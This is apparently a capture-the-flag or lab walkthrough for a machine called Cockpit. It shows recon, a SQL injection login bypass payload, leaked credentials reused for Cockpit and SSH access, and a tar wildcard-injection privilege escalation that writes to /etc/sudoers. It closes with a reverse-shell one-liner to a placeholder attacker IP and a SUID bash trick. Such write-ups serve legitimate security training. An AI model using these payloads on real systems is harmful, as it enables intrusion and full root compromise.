






## Machine Summary:

Cockpit demonstrates how a SQLi vulnerability and insecure credential storage can allow an attacker to move laterally into the system, gaining user-level write access and exploiting weak SSH security to obtain a fully interactive shell. As the compromised user, a sudo backup command containing a wildcard injection vulnerability can then be found and exploited, leading to full root access.



## Recon
### Nmap Scan Results
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: blaze
9090/tcp open  http    Cockpit web service 198 - 220
|_http-title: Did not follow redirect to https://192.168.210.10:9090/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### HTTP Port 9090

HTTP on port 9090 leads to a Cockpit administration page for the web service. No immediate vulnerabilities can be found, so we'll move on for now.

## Initial Access - SQLi Information Disclosure
### HTTP Port 80

During gobuster directory enumeration on `http://192.168.210.10`,  we'll discover an interesting page `login.php`.
```bash
$ gobuster dir -e -r -q -k -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 100 -x txt,pdf,aspx,php -o gobuster-common.txt -u http://192.168.210.10
```
```bash
http://192.168.210.10/css (Status: 200) [Size: 1323]
http://192.168.210.10/index.html (Status: 200) [Size: 3349]
http://192.168.210.10/img (Status: 200) [Size: 935]
http://192.168.210.10/js (Status: 200) [Size: 932]
http://192.168.210.10/login.php (Status: 200) [Size: 769]
http://192.168.210.10/logout.php (Status: 200) [Size: 769]
http://192.168.210.10/server-status (Status: 403) [Size: 279]
```

When we visit the page, we will see a login for Blaze; testing the username parameter with `'` throws a MySQL error, indicating a possible SQLi vulnerability.

### Login Bypass

Entering `admin'|| '1'='1' -- -` for the username parameter will bypass the login. This essentially makes the database processes a query that looks something like `SELECT * FROM users WHERE username = 'admin' OR '1'='1'`, evaluates it as completely valid, and logs us into the first available account (usually admin).
```sql
admin'|| '1'='1' -- -
```

The vulnerable backend code typically constructs a query like this:
```sql
SELECT * FROM users WHERE username = '$username'  AND password = '$password'
```

When the app plugs our raw string `admin'|| '1'='1' -- -` directly into that template without using a parameterized query or prepared statement, the database receives a single, unified string that it must parse and execute. It cannot tell where the intended code ends and where the user's input begins.

Once bypassed we'll be forwarded to `password-dashboard.php` which leaks a couple of base64 encoded passwords.


We can then decoded credentials from base64:
```bash
james:canttouchhhthiss@455152
cameron:thisscanttbetouchedd@455152
```

### Shell as james
#### Credential Reuse

Going back to the previously discovered login page for the Cockpit web service on port 9090, the credentials `james:canttouchhhthiss@455152` can be used to gain access and are presented with a user dashboard.



#### SSH Access
Navigating to Host -> Terminal, we'll be presented with an interactive console as the user james. We can then create an SSH key and add our public key to .ssh/authorized_keys.
```bash
# Create ssh key on attack box
$ ssh-keygen -t ed25519 -a 100 -f id_hacker
$ cat id_hacker.pub

# On target host
james@blaze:~$ mkdir .ssh
james@blaze:~$ echo "PUBLIC_KEY" > .ssh/authorized_keys
```



Login via ssh as `james`
```bash
$ chmod +x 0600 id_hacker
$ ssh -i id_hacker james@192.168.210.10
```

```bash
james@blaze:~$ id;hostname
uid=1000(james) gid=1000(james) groups=1000(james)
blaze
```

## Privilege Escalation - Wildcard Injection

Running `sudo -l` as james we will see he can run `/usr/bin/tar -czvf /tmp/backup.tar.gz *` with no password. The leading * is of particular interest as this allows for a wildcard injection.
```bash
james@blaze:~$ sudo -l
Matching Defaults entries for james on blaze:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on blaze:
    (ALL) NOPASSWD: /usr/bin/tar -czvf /tmp/backup.tar.gz *
```

A wildcard injection vulnerability happens when a user runs a command containing a leading `*`. The system shell expands that asterisk into a list of every file name in the current directory before passing it to the program. When the shell expands the wildcard, tar mistakenly interprets these specific file names as arguments rather than files.

If our user can write files in that directory, we can intentionally name files after the tar command-line flags, specifically `--checkpoint=1` and `--checkpoint-action=exec=sh privesc.sh`. `tar` processes these flags with elevated permissions, executing our script as **root**.

Here is a good article with a more detailed read on the vulnerability:
- https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/
### Wildcard Injection
1. Create null checkpoint files
2. Create script to grant all sudo privs
3. Execute sudo command
4. Verify and take shell as root
#### Injecting sudoers
Enter `/tmp` and create both files for tar to execute:
```bash
$ cd /tmp
$ echo "" > '--checkpoint=1'
$ echo "" > '--checkpoint-action=exec=sh privesc.sh'
```

Write the script to add all sudo privileges for current user:
```bash
$ echo -e  "echo 'james ALL=(root) NOPASSWD: ALL' >> /etc/sudoers" > privesc.sh
```

Because of the wildcard injection when we execute `sudo /usr/bin/tar -czvf /tmp/backup.tar.gz`, the resulting command will look like this:
```bash
sudo /usr/bin/tar -czvf /tmp/backup.tar.gz --checkpoint=1 --checkpoint-action=exec=sh privesc.sh file1.txt file2.txt ...
```

Once executed, we can check our sudo privileges and execute `sudo bash` to get a shell as root.:
```bash
james@blaze:/tmp$ sudo -l
User james may run the following commands on blaze:
    (root) NOPASSWD: ALL
```

```bash
james@blaze:/tmp$ sudo bash
root@blaze:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```
#### Quieter Methods
Some other methods for shared labs or where stealth is important.
```bash
# Reverse shell injection
echo 'bash -c "bash -i >& /dev/tcp/[ATTACKER_IP]/[PORT] 0>&1"' > [script]

# Make suid bash
echo 'cp /bin/bash /tmp/rsh;chown root:root /tmp/rsh;chmod 4788 /tmp/rsh' > [script]
```